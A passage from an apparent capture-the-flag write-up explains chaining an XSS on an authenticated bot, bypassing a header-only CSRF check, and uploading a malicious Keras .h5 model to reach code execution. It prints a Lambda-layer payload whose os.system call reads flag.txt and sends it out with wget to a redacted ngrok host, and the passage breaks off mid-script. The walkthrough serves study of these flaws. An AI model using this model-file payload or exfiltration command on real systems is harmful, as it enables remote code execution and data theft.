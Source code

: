 Since we cannot steal the cookie, we will have to make the bot do the requests in our behalf.
Let's jump back for a second and look at the **@csrf_protection** decorator, that will lead us to this code:

```python
def csrf_protection(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        csrf_header = request.headers.get("X-SPACE-NO-CSRF")
        if csrf_header != "1":
            return jsonify({"error": "Invalid csrf token!"}), 403
        
        return f(*args, **kwargs)
    return decorated_function
```

Here we see that it checking that the custom **X-SPACE-NO-CSRF** header is present and set to "1".
This is a slight nuissance, we just simply need to remember to add it in our requests to the internal server!

Great, now we know that we can exploit the XSS to send requests to the internal api server using the bot, which is autenticated, and we know that we need to add the custom header, but what should we do now?
If we look again at the code in **backend/app.py** we can see that there is another POST method, that requires autentication.
If you ran the application locally and changed the password and tried to login and look at the dashboard, you already know what i'm talking about.
In the dashboard there is the possibility to send to the internal server a new neural network model, in the **.h5** format, that will be used by the Keras library, from Tensorflow.
Here the **.h5** file is loaded and tested against some values.

By doing some reaserce online i was able to find a RCE vulnerability in tensorflow 2.12.0 and below, by abusing the so called Lambda layers, that are custom layers that takes a user defined function and executes it during the prediction steps. This was done in order to allow
programmers to define custom operations to be done with the data provided to the network. The problem is that it is possible to simply import the **os** python library and execute shell commands while testing the network.
The idea here is then to create a new model, called **attack_model.h5**, that contains a Lambda layer that allows us to read the flag and send it to our webhook server.
But how can we send the model to the internal api?

We need to exploit the XSS vulnerability. We can create a Flask server that runs locally (and is tunneled thanks to ngrok) and when receiving a get request to the **/my_file** path simply sends back the contents of the **attack_model.h5** file.
When doing this we need to remember to set ```Access-Control-Allow-Origin = '*'``` in our server, otherwise the request will be blocked.

Lets look at the code for the creation of the **attack_model.h5**

```python
from tensorflow import keras
import json
import random
from tensorflow import keras
from keras.datasets import mnist
from keras.utils.np_utils import to_categorical
from keras.models import Sequential
from keras.layers.core import Dense, Dropout, Activation, Lambda

def exploit(x):
	import os
	ngrok_ip = "<redacted>"
	os.system("flag=$(cat ./../flag.txt);url='http://" + ngrok_ip + "/?flag=';wget $(echo $url$flag)")
	return x


```